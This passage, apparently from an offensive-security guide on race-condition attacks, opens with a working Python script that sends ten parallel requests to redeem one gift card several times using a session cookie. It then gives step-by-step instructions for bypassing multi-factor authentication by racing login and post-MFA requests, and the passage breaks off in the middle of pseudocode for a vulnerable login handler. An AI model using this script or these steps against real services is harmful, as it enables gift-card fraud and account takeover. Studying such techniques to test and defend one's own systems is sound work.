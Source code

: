        def exploit_gift_card(url, card_number, card_pin, amount, session_cookie):
           headers = {
               "Content-Type": "application/x-www-form-urlencoded",
               "Cookie": f"session={session_cookie}"
           }
           
           data = {
               "card_number": card_number,
               "card_pin": card_pin,
               "amount": amount
           }
           
           response = requests.post(url, headers=headers, data=data)
           return response
       
       # Configuration
       target_url = "https://example.com/redeem-gift-card"
       gift_card = "1234567890123456"
       pin = "1234"
       redeem_amount = "50.00"  # Amount to redeem each time
       session = "abcdef123456789"
       threads = 10  # Number of parallel requests
       
       # Execute parallel requests
       with concurrent.futures.ThreadPoolExecutor(max_workers=threads) as executor:
           futures = [
               executor.submit(exploit_gift_card, target_url, gift_card, pin, redeem_amount, session)
               for _ in range(threads)
           ]
           
           # Process results
           for future in concurrent.futures.as_completed(futures):
               try:
                   response = future.result()
                   print(f"Status: {response.status_code}")
                   print(f"Response: {response.text[:100]}...")
               except Exception as e:
                   print(f"Error: {e}")
       ```

  - **Multi-factor authentication (MFA) bypass**
    1. **Identifying vulnerable MFA implementation**:
       - Step 1: Analyze the MFA implementation flow
       - Step 2: Check if MFA enforcement happens as a separate step after initial authentication
       - Step 3: Identify requests that set session state and enforce MFA
       - Step 4: Look for authenticated endpoints that can be accessed after login but before MFA
       - Step 5: Prepare a test to send login and post-MFA requests simultaneously
       - Example vulnerability pattern:
       ```python
       # Pseudocode of vulnerable server-side implementation
       def login_handler():
           # Validate username and password
           if validate_credentials(request.username, request.password):
               # Set user as authenticated in session
               session['authenticated'] = True
               session['user_id'] = user.id
               